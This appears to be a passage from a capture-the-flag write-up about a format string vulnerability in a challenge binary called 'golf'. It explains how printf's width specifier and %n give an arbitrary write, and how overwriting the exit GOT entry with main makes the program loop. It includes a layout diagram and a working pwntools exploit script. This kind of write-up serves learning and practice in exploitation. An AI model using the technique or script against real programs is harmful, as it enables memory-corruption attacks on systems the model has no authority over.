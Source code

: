 This means that we have to come up with any idea.

If we do some research and look at this [link](https://cplusplus.com/reference/cstdio/printf/), we see that printf takes in a width (\*) flag which prints the number of characters that it is pointed to.

With that in mind, we can reformat our exploit to the following:

```
                 10 bytes
►────────────────────────────────────────►
┌────────────────────┼───────────────────┬──────┬─────────────────────┬──────────────────────┐
│                    │                   │      │                     │                      │
│                    │                   │      │                     │                      │
│      %*(Y+1)$c     │       %Y$n        │ \x00 │     address Z       │        value X       │
│                    │                   │      │                     │                      │
└─────────┬──────────┴──────────┬────────┴──────┴─────────────────────┴──────────────────────┘
          │                     │                        ▲                        ▲
          │                     │                        │                        │
          │                     └────────────────────────┘                        │
          │                        write X bytes into Z                           │
          │                      where Z is pointed to by                         │
          │                        offset Y on the stack                          │
          │                                                                       │
          │                                                                       │
          │                                                                       │
          └───────────────────────────────────────────────────────────────────────┘

                                 print $X amount of characters
```

With this, we can right any amount of bytes we want into any given address! 

The only constraints we have left is that we are restricted to only **one write**, which is highly limited given that there is no win or shell function in the binary.

We can overcome that by overwriting `exit@plt.got` with `main` so that the program loops endlessly and gives us unlimited writes.

```python

from pwn import *

context.binary = elf = ELF('./golf')
p = process('./golf')

payload = b'%*8$c' + b'%9$n'
assert len(payload) <= 10 # ensure format string does not exceed 10 characters

payload += b'\x00' * (16-len(payload)) # pad payload so format specifiers are pointed correctly
payload += p64(0x40121f) # main address
payload += p64(elf.got.exit) # exit

p.sendline(payload)
p.interactive()
```
